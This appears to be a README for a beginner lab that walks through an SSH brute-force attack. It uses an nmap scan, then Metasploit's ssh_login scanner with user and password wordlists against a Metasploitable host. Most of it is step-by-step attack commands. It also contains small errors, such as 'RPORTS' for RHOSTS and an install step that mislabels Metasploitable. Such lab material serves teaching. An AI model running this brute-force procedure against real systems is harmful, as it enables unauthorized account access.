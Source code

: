 ##### Bruteforce-demo🥷🏿⛓️‍💥
---
##### _This is a simple display of how bruteforce attack works, the lab highlights the importance of redteam thinking, and the relationship between information garthering and exploitation, from the nmap open port being the one explored for exploitation._

---

##### Tools Used
- Nmap
- Kali
- Metaspliotable OS
- msfconsole
---

##### Steps

##### 1. install metaspliotable on your kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```
---

##### 2. Access msfconsole

```bash
msfconsole
```
---

##### 3. Run basic nmap command to view open ports

```bash
nmap 192.168.1.4
```
My port 22/tcp (ssh) is opened so we would be exploiting that.

---

##### 4. Access scan ssh on msfconsole

```bash
msf > search ssh
```
---

##### 5. Access the auxiliary Scanner for ssh

```bash
msf > use auxiliary/scanner/ssh/ssh_login
```
---

##### 6. Search Options to understand the requirements and set them up

```bash
msf > show options
```
---

##### 7. Set the PASS_FILE, USER_FILE, RHOSTS, BRUTEFORCE_SPEED AND VERBOSE, as communicated under options

```bash
msf > set RPORTS 192.168.1.4
msf > set VERBOSE true
msf > set USER_FILE "file path/text file"
msf > set PASS_FILE "file path/text file"
```
#### Then run

```bash
msf > run
```
---


